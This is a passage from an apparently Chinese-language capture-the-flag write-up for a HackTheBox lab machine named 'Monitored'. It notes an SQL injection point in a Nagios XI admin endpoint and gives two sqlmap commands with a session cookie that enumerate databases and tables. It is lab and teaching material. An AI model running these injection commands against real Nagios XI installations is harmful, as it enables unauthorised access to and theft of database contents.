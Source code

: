 ![image-20250322185757396](Monitored/image-20250322185757396.png)

sql语句报错了，说明存在sql注入

## sqlmap

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="action=acknowledge_banner_message&id=3" --cookie="nagiosxi=qf82es0u6nb5luhls0kq3rqvub" --batch -p id -t 20 --dbs
```

![image-20250322203631690](Monitored/image-20250322203631690.png)

```
 sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="action=acknowledge_banner_message&id=3" --cookie="nagiosxi=qf82es0u6nb5luhls0kq3rqvub" --batch -p id -t 20 -D nagiosxi --tables
```
